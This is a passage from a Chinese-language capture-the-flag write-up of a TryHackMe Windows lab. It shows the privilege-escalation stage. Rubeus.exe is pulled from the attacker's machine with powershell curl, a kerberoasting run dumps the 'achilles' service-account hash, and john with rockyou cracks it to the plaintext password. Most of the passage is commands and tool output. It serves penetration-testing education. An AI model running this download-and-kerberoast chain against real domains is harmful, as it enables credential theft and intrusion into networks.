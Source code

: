 ```

## 提权
把Rubeus.exe传到靶机
```
PS C:\Users\hector\Desktop> powershell curl 10.13.21.169:8000/Rubeus.exe -o Rubeus.exe
powershell curl 10.13.21.169:8000/Rubeus.exe -o Rubeus.exe  
```

dump出用户哈希存到hash.txt
```
PS C:\Users\hector\Desktop> .\Rubeus.exe kerberoast /outfile:dump.txt
.\Rubeus.exe kerberoast /outfile:dump.txt

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.0 


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : troy.thm
[*] Searching path 'LDAP://TROY-DC.troy.thm/DC=troy,DC=thm' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : achilles
[*] DistinguishedName      : CN=Achilles,OU=Created Users,DC=troy,DC=thm
[*] ServicePrincipalName   : TIME/TROY-DC.TROY.THM
[*] PwdLastSet             : 19/02/2021 18:32:09
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash written to C:\Users\hector\Desktop\dump.txt

[*] Roasted hashes written to : C:\Users\hector\Desktop\dump.txt
```

把dump.txt传回kali，用john破解
```
┌──(root💀kali)-[~/tryhackme/hackerhill]
└─# john dump.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
winniethepooh    (?)
1g 0:00:00:00 DONE (2021-10-28 02:40) 50.00g/s 153600p/s 153600c/s 153600C/s slimshady..dangerous
Use the "--show" option to display all of the cracked passwords reliably
Session completed
